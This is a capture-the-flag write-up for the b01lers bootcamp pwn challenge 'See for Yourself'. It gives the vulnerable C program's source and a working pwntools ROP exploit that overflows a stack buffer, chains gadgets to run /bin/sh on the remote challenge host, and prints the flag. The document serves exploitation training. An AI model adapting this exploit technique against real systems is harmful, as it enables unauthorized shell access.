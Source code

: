 ## b01lers bootcamp: See for Yourself [pwn]
![](seeyourself_description.png)

#### Source code:
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

char * binsh = "/bin/sh";

int main() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    system(NULL);

    char * shellcode[0];

    printf("Unfortunately, no one can be told what the Matrix is. You have to see it for yourself.\n");
    read(0, shellcode, 64);
}

```

#### Just a simple rop challenge, many of these in my writeups website so I won't go into detail. The plan is to take control of RIP, search for gadgets to setup registers, find where binsh is in memory then ROP to execute execve('/bin/sh', 0, 0).

```python
from pwn import *

#:
#p = process('./simplerop')
p = remote('chal.ctf.b01lers.com', 1008)
#gdb.attach(p.pid, 'break *main + 114')
print(p.recv())

#: 
ret = 0x40101a
bin_sh = 0x402008
pop_rdi = 0x401273

exploit = cyclic(8)
exploit += p64(ret)
exploit += p64(pop_rdi)
exploit += p64(bin_sh)
exploit += p64(0x401080)
exploit += cyclic(64 - len(exploit))
p.sendline(exploit)
p.interactive()

#: flag{ROP_ROOP_OOP_OOPS}
```